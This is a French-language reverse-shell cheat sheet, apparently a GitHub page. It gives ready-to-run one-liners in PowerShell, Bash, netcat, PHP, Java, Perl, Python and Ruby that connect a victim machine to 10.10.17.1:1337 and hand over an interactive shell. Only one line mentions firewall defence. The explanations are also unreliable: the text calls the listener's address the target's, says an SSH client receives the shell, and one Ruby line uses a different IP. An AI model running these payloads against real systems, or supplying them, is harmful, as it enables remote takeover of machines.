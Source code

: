 Un shell inversé ou "reverse shell" est un script ou un programme exécutable qui permet un accès shell interactif à un système via une connexion sortante de ce système

Les pirates malveillants utilisent souvent des shells inversés pour envoyer des commandes à un système compromis, et ils peuvent être utilisés à des fins légitimes, telles que l'administration de serveur distant

# Windows Power Shell
Pour les systèmes Windows, un shell inversé peut être créé à l'aide de PowerShell

Exemple de shell PowerShell inversé :
```
$sm=(New-Object Net.Sockets.TCPClient("10.10.17.1",1337)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
$sm.Write($st,0,$st.Length)}
```

Ce script établit une connexion shell inverse de la machine cible à la machine de l'attaquant, qui écoute sur le port TCP 1337. L'adresse IP de la machine cible est "10.10.17.1" dans cet exemple

Vous n'avez plus qu'à vous connecter via un client SSH

## Alternative avec HTA
Une autre méthode consiste à utiliser des fichiers HTA avec PowerShell intégré. Par exemple, un shell inversé peut être intégré dans un fichier HTA et exécuté à l'aide de `mshta.exe`

Pour empêcher l'utilisation inverse du shell, vous pouvez imposer un contrôle strict sur les connexions sortantes à l'aide d'un pare-feu et vous assurer que toute activité suspecte est surveillée de près

# Linux bash
Pour envoyer des commandes à un shell inversé sur Linux, vous devez établir un listener sur votre machine locale, puis vous connecter au shell inverse sur la machine cible. 

Voici un exemple de base en utilisant Netcat:
- Établissez un Listener: Sur votre machine locale, démarrez un listener Netcat pour recevoir la connexion shell inversée : `nc -l -p 1337`
Cette commande écoute les connexions entrantes sur le port 1337.

Envoyer des commandes: Une fois le shell inversé connecté, vous pouvez envoyer des commandes comme vous le feriez dans une session shell normale. Pour un shell Bash inversé, vous pouvez utiliser : `bash -i >& /dev/tcp/your_ip/your_port 0>&1`

Une fois que le shell inverse se connecte, vous pouvez envoyer des commandes directement au shell
Par exemple, pour vérifier l'utilisateur actuel, vous pouvez taper : `whoami`

# Autres reverse shell
[invicti.com/learn/reverse-shell](https://www.invicti.com/learn/reverse-shell/)
## NetCat
`ncat -l -p 1337` ou `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.1 1337 >/tmp/f`
## PHP
`php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.1/1337;
cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## PERL
```
perl -e 'use Socket;$i="10.10.17.1";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```
### Python
```
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.17.1",1337));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
## RUBY
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.17.1","1337");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```
ou
```
ruby -rsocket -e'f=TCPSocket.open("10.0.17.1",1337).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```